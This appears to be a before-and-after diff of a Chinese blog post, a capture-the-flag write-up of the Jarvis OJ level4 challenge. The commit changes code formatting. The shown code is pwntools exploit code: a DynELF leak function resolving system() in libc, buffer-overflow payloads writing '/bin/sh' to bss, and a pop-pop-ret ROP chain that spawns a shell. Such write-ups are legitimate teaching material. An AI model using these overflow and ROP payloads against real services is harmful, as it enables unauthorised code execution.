

Before and after one commit to tearorca/tearorca.github.io, a Jekyll site: the page built from _posts/2018-12-20-Jarvis-oj-level4-DynELF的利用.md, in a window 1280 px wide and 1400 px high, scrolled down 713 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; our own code applies the rules of GitHub Pages for plain Markdown files; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

```diff
--- a/_posts/2018-12-20-Jarvis-oj-level4-DynELF的利用.md
+++ b/_posts/2018-12-20-Jarvis-oj-level4-DynELF的利用.md
@@ -24,36 +24,35 @@ DynELF的使用条件:
 
     def leak(address):
 
-    payload = junk + p32(write_plt) + p32(main) + p32(1) + p32(address) + p32(4)
+		payload = junk + p32(write_plt) + p32(main) + p32(1) + p32(address) + p32(4)
 
-    r.sendline(payload)
+		r.sendline(payload)
 
-    leaked = r.recv(4)
+		leaked = r.recv(4)
 
-    print "[%s] -\  [%s] = [%s]" % (hex(address), hex(u32(leaked)),
-    repr(leaked))
+		print "[%s] -  [%s] = [%s]" % (hex(address), hex(u32(leaked)),repr(leaked))
 
-    return leaked
+		return leaked
 
-    d=DynELF(leak,elf=ELF('level4'))
+		d=DynELF(leak,elf=ELF('level4'))
 
-    sys_addr=d.lookup('system','libc')
+		sys_addr=d.lookup('system','libc')
 
 泄露出system的地址并且返回到了main
 
-第二次布置栈，通过read将’/bin/sh\\x00’写到bss里面，再返回main
+第二次布置栈，通过read将’/bin/sh\x00’写到bss里面，再返回main
 
-    payload2='a'\*140+p32(read_plt)+p32(main)+p32(0)+p32(bss_addr)+p32(8)
+    payload2='a'*140+p32(read_plt)+p32(main)+p32(0)+p32(bss_addr)+p32(8)
 
     r.send(payload2)
 
-    r.send('/bin/sh\\x00')
+    r.send('/bin/sh\x00')
 
 注意，第二个输入要用send而不是sendline否则会发生错误，第一个随意
 
 第三次布置栈执行system
 
-    payload3='a'\*140+p32(sys_addr)+'a'\*4+p32(bss_addr)
+    payload3='a'*140+p32(sys_addr)+'a'*4+p32(bss_addr)
 
     r.sendline(payload3)
 
@@ -112,8 +111,7 @@ r8和r9寄存来传递。在Linux系统，64位架构只使用48位的虚拟地
 
 我们用这个0x08048509构造payload
 
-    payload ='a'*140 + p32(read_plt) + p32(ppr) + p32(0)+ p32(bss_addr) +
-    p32(8)
+    payload ='a'*140 + p32(read_plt) + p32(ppr) + p32(0)+ p32(bss_addr) +p32(8)
 
     payload+=p32(sys_addr) + p32(0xdeadbeef) + p32(bss_addr)
 
```
